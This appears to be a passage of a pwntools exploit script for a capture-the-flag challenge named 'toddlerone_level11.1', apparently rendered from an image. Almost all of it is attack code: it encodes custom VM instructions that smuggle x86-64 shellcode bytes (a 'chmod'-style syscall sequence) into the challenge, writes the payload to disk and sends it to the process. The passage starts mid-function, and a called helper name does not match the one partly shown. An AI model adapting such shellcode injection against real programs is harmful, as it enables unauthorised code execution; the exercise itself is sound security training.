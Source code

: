```python
        formatted_item = formatted_item.replace(b'\{stm}', stm)
        formatted_item = formatted_item.replace(b'\{imm}', imm)
        formatted_item = formatted_item.replace(b'\{sys}', sys)
        formatted_item = formatted_item.replace(b'\{jmp}', jmp)



        formatted_data_list.append(formatted_item)
    return formatted_data_list

elf = ELF("/challenge/toddlerone_level11.1")


data_list = [
    p64(0x808) + b'\{imm}\{a}', # imm a, 0x00
    p64(0x0cd) + b'\{imm}\{b}', # imm b, 0x1f9
    b'\{b}\{stm}\{a}', # stm *a = b
    p64(0x00) + b'\{imm}\{a}', # imm a, 0x00
    p64(0x20)+b'\{jmp}'+p64(0x00), #  jmp * a

    p64(0x900aEBE78948666A) + b'\{imm}\{a}', # imm a, nop; jmp 0xa; mov rdi, rsp; push 0x66
    p64(0x050F585A6A5E046A) + b'\{imm}\{a}', # imm a, syscall; pop rax; push 0x5A; pop rsi; push 0x4 

]

payload_2 = b''.join(format_data_list(a=0x20,b=0x4,c=0x1,d=0x40,read=0x20,write=0x10,open_=0x1,stm=0x40,imm=0x08, sys=0x4, jmp=0x20))

with open("/home/hacker/exploit/level11/shellcode_2.bin", "wb") as file:
    file.write(payload_2)
p = process("/challenge/toddlerone_level11.1")
# 明确重定向文件描述符
p.send(payload_2)
p.interactive()

```
